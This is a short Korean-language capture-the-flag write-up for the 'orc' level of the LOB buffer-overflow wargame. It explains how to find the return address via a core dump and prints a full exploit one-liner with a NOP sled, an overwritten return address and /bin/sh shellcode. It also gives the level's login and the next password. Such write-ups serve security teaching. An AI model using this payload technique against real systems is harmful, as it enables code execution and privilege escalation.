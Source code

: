 # [LOB] orc Write-up

![](./picture/orc_1.JPG)

```
login : goblin
Password : hackers proof
```

위의 계정으로 로그인하면 된다.

```
[goblin@localhost goblin]$ cat orc.c
```
orc.c의 내용은 다음과 같다.

![](./picture/orc_2.JPG)

이번 문제에서는 환경변수를 초기화시킨다. 또한 RET 주소가 "\xbf" 로 시작해야 하기 때문에 스택을 이용해야 한다. 

```
[goblin@localhost goblin]$ cp orc aaa
```

orc 파일을 복사한 뒤 core 덤프를 떴다. 

![](./picture/orc_3.JPG)

buffer와 SFP까지 `\x90`으로 채우고, RET 를 `\xff\xff\xff\xbf`로 채웠다. 그 뒤 쉘코드를 넣을 자리에 `A`로 채웠다.

![](./picture/orc_4.JPG)
![](./picture/orc_5.JPG)

$esp로 확인해봤더니 `\x90`이 채워져있고, `\xff\xff\xff\xbf`, 그리고 `A`가 채워져있다. `A`가 채워지는 시작 부분이 쉘코드 시작 부분이므로 RET 주소가 `0xbffffae0`이 되면 된다.

```
./orc `python -c 'print "\x90"*44+"\xe0\xfa\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

페이로드는 위와 같다.

![](./picture/orc_6.JPG)

비밀번호는 **cantata** 이다.